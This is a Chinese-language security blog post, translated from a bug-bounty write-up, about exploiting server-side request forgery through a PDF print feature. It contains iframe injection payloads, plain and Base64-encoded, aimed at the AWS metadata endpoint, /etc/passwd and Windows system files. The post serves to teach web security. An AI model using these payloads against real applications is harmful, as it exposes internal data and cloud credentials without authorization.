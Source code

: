 #  通过 PDF 打印功能利用SSRF访问内部数据   
原创 骨哥说事  骨哥说事   2024-11-26 01:10  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
# 文章原文：https://gugesay.com/archives/3634  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlbXyV4tJfwXpicwdZ2gTB6XtwoqRvbaCy3UgU1Upgn094oibelRBGyMs5GgicFKNkW1f62QPCwGwKxA/640?wx_fmt=png&from=appmsg "")  
# 前言  
  
服务器端请求伪造 (SSRF) 是一种 Web 安全漏洞，当攻击者操纵服务器向非预期目标发出未经授权的 HTTP 或其他基于协议的请求时，就会发生此类漏洞。  
# 在应用中寻找SSRF  
  
比如某个应用程序使用了不同的内部域来处理财务数据，并通过 iframe 获取数据。  
  
在深入探索该应用程序时，发现了一处打印功能。  
  
此功能将页面转换为 HTML，以 Base64 对其进行编码，然后发送以等待打印。  
  
这不禁让人想起了NahamSec 和其它安全研究人员的文章和视频中的 SSRF 技术，特别是围绕 PDF 转换功能，这些功能通常存在 SSRF 风险。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jl1uOxOnccqkiaCsDJlV6gvU4U5Y6XbqWL21VZHpiaV6rIxUbzibiarNPlQOP6iaByIoxNTphPibOm4Mb2g/640?wx_fmt=png&from=appmsg "")  
  
首先尝试使用一些常用的Payloads来检查 SSRF，比如使用针对 AWS 元数据端点和 Linux 文件路径的命令：  
```
"><iframe src="http://169.254.169.254/latest/meta-data" height=2500 width=500> "><iframe src="cat /etc/passwd" height=2500 width=500>
```  
  
但是遇到了 iframe 中高度和宽度参数的问题，这会导致输出失真。经过一番尝试，白帽小哥最终找到了这些参数的正确结构。  
  
但是遇到了 iframe 中高度和宽度参数的问题，这会导致输出失真。经过一番尝试，白帽小哥最终找到了这些参数的正确结构。  
```
"><iframe src="C:\Windows\debug\NetSetup.LOG" height=2500 width=500>
 "><iframe/src="C:/Windows/win.ini">
```  
```
Ij48aWZyYW1lL3NyYz0iQzpcV2luZG93c1xkZWJ1Z1xOZXRTZXR1cC5MT0ciIGhlaWdodD0yNTAwIHdpZHRoPTUwMD4=
Ij48aWZyYW1lL3NyYz0iQzpcV2luZG93c1xkZWJ1Z1xOZXRTZXR1cC5MT0ciIGhlaWdodD01MDAgd2lkdGg9NzAwPg==
```  
  
发送请求如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jl1uOxOnccqkiaCsDJlV6gvUWV9gpCjXHULIxuQqjGet9N4XfwkzAiajibmdSQ1ZIFIcWvP4ic0qcCxFg/640?wx_fmt=png&from=appmsg "")  
  
成功收获SSRF漏洞：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jl1uOxOnccqkiaCsDJlV6gvUsLRuafZDIwJepOw7FCAtibHZT7t9AcbrZ0yKjwYTS6TuOjEKYccSibWg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jl1uOxOnccqkiaCsDJlV6gvU1dChmBFK3Lr879XXjDSjtlfBiaXkZleYucLtV57liaEK6x5B8AIQ58Jg/640?wx_fmt=png&from=appmsg "")  
  
你学到了么？  
  
原文：  
https://bishal0x01.medium.com/ssrf-to-internal-data-access-via-pdf-print-feature-b8e6a912844a  
  
**加入星球，随时交流：**  
  
****  
**（前50位成员）：99元/年************（后续会员统一定价）：128元/年******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～****====正文结束====**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jlicLtK13eXeeOdNTf1LuS6uB1tacyguiaLR3etIX6yKXygXa2buibwTKPWabTgd3mIcERRSorQ2DSbg/640?wx_fmt=jpeg&from=appmsg "")  
  
